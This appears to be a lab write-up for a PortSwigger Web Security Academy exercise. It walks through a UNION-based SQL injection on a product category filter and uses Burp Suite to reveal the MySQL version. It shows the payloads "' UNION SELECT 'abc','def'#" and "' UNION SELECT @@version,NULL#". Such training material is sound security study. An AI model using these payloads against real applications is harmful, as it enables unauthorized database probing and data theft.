





# Lab: SQL Injection Attack — Querying the Database Type and Version

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Practitioner  
**Category:** SQL Injection  
**Tool:** Burp Suite Community Edition  
**Status:** ✅ Solved

## Objective

The objective of this lab was to exploit a SQL injection vulnerability in the product category filter and use a `UNION` attack to retrieve the database version.

The target was to make the database return the following version string:

`8.0.42-0ubuntu0.20.04.1`

---

## 1. Identifying the Vulnerable Parameter

I selected the **Gifts** category from the product category filter.

The application sent the following request:

```http
GET /filter?category=Gifts HTTP/2
```

The `category` parameter was identified as the potential injection point.

### Screenshot



---

## 2. Capturing the Request

I used **Burp Suite → Proxy → HTTP History** to capture the request generated when selecting the `Gifts` category.

The request was then sent to **Burp Repeater** so that the `category` parameter could be modified and tested.

### Request

```http
GET /filter?category=Gifts HTTP/2
```

### Screenshot



---

## 3. Testing the UNION Injection

I modified the `category` parameter with the following payload:

```text
'+UNION+SELECT+'abc','def'#
```

After URL decoding, the payload is essentially:

```sql
' UNION SELECT 'abc','def'#
```

The application returned both `abc` and `def` in the response.

This confirmed that:

- The SQL injection was successful.
- A `UNION SELECT` attack could be used.
- The original query returned **2 columns**.
- Both columns could contain text data.

### Screenshot



---

## 4. Retrieving the Database Version

After confirming that the query returned two columns, I replaced the test values with a database version query:

```text
'+UNION+SELECT+@@version,NULL#
```

After URL decoding:

```sql
' UNION SELECT @@version,NULL#
```

`@@version` is a MySQL system variable that returns the database server version.

`NULL` was used for the second column because the `UNION SELECT` query needed to return the same number of columns as the original query.

### Database Version Retrieved

```text
8.0.42-0ubuntu0.20.04.1
```

### Screenshot



---

## 5. Lab Solved

The database version was successfully displayed in the application response.

The PortSwigger lab was then marked as solved.

### Result

**Database Version:**

```text
8.0.42-0ubuntu0.20.04.1
```

**Status:** ✅ Lab Solved

### Screenshot


